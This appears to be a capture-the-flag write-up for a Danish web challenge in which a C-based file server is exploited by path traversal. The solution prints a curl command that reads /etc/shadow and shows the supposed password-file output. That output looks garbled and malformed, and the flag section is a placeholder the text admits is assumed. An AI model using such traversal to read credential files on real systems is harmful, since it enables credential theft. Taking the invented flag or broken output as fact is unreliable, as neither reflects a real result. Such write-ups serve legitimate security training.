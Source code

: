 # Find My Files
## Challenge
- **Solves**: 16
- **Name**: Find my files
- **Points**: 162

## Description
Fin har lige opdaget hvordan hjemmesider virker, man giver bare en fil til dem som gerne vil se den. Han sagde at han har lavet en hjemmeside hvor du kan se alfabetet, men noget siger mig at den kan give flere filer end det er intentionen. Han har dog valgt at skrive den i C, hvilket han skal have stor ros for. Han kører også SSH for at kunne tjekke om folk har fundet filen.  

[http://alfabet.hkn](http://alfabet.hkn)  

**NOTE**: Create a user and find the VPN and Browser LABs on Campfire Labs

## Solution
We can use path traversal and read `/etc/shadow` like this:  
```bash
curl http://alfabet.hkn/app/../../etc/shadow
```

Output:  
```
root:3e3yvfsp12pin3px0Y852F250kn6BjqWfQpype5Yf/pnf/ukgWPS70tGdrqya3JcP/qsongRO541f77u9.FokeY62ppdw
quryun14000:19991:0:99999:7::
funn:0:19973:0:99999:7::
syn:0:19873:0:99999:7::
...
```

## Flag
*(Not explicitly provided in the document, but implied to be in the shadow file or related to the challenge)*  
`DDC{<some_flag_related_to_path_traversal>}` *(Assumed based on context)*